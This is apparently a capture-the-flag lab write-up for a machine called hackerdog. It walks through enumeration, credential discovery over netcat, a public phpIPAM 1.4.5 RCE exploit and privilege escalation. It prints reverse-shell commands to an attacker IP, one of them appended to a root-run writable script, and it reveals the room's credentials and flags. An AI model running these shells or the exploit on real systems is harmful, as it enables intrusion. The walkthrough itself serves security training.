 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 80   | http    |
| 1337 | waste   |



# RECONNAISSANCE
---

If we check the website, we can see this:

![Pasted image 20250403160350.png](../../IMAGES/Pasted%20image%2020250403160350.png)

We need some credentials in order to access this, we can check a hidden directory at `robots.txt`:

![Pasted image 20250403160417.png](../../IMAGES/Pasted%20image%2020250403160417.png)

That just takes us to a Youtube video:


![Pasted image 20250403160441.png](../../IMAGES/Pasted%20image%2020250403160441.png)


If we recall our nmap scan, we can see a strange service running at `1337`, something called `waste`, let's interact with it using netcat:

```
nc IP 1337
```


If we follow the string of the conversation, we can see this:

![Pasted image 20250403160543.png](../../IMAGES/Pasted%20image%2020250403160543.png)

Right answer is bulldog, we can get this by either trying many times or just checking the theme of the room:

![Pasted image 20250403160710.png](../../IMAGES/Pasted%20image%2020250403160710.png)

If we answer correctly, we get the following:

![Pasted image 20250403160724.png](../../IMAGES/Pasted%20image%2020250403160724.png)

We got credentials:

```
admin:OllieUnixMontgomery!
```

Since we got the credentials, we can finally go inside the dashboard:

![Pasted image 20250403160828.png](../../IMAGES/Pasted%20image%2020250403160828.png)


# EXPLOITATION
---

We are dealing with something called `phpIPAM 1.4.5`m we can search for an exploit:


![Pasted image 20250403160856.png](../../IMAGES/Pasted%20image%2020250403160856.png)

Let's try it out.

Link: https://www.exploit-db.com/exploits/50963

```
python3 exploit.py -url http://10.10.161.122/ -usr admin -pwd 'OllieUnixMontgomery!' -cmd 'id' --path /var/www/html
```


If we use the exploit correctly, we can see this:

![Pasted image 20250403161633.png](../../IMAGES/Pasted%20image%2020250403161633.png)

There we go, we got `rce`, let's send ourselves a shell, let's go to `evil.php` and use the following command:

```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FYOUR_IP%2F4444%200%3E%261%22
```

We need to have our listener ready and once we send the command, we'll notice this:


![Pasted image 20250403162334.png](../../IMAGES/Pasted%20image%2020250403162334.png)

Let's proceed privilege escalation.



# PRIVILEGE ESCALATION
---


First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250403162450.png](../../IMAGES/Pasted%20image%2020250403162450.png)

We can reuse the same credentials for user `ollie` inside of the shell, let's do it:

```
ollie:OllieUnixMontgomery!
```

![Pasted image 20250403164153.png](../../IMAGES/Pasted%20image%2020250403164153.png)

Now, we can read the `user.txt` flag:

```
ollie@hackerdog:/tmp$ cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```

From here, I tried using linpeas but nothing useful was truly found on here, we can use `pspy` to check on active processes

![Pasted image 20250403164331.png](../../IMAGES/Pasted%20image%2020250403164331.png)

Something weird is being run by root, let's check this feedme stuff:

```
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
```

We got a binary called `feedme`, let' see it:

```
ollie@hackerdog:/tmp$ file /usr/bin/feedme
/usr/bin/feedme: Bourne-Again shell script, ASCII text executable
```

```
ls -la /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
```

We can write on the script, let's simply put a reverse shell on the file and wait for it to be executed again:

```
echo 'bash -c "bash -i >& /dev/tcp/10.6.34.159/9001 0>&1"' >> /usr/bin/feedme
```

Now, set up the listener and wait a bit to see the connection:

![Pasted image 20250403164633.png](../../IMAGES/Pasted%20image%2020250403164633.png)

We got root finally, let's read `root.txt`:

```
root@hackerdog:/# cat /root/root.txt
THM{Ollie_Luvs_Chicken_Fries}
```

![Pasted image 20250403164709.png](../../IMAGES/Pasted%20image%2020250403164709.png)



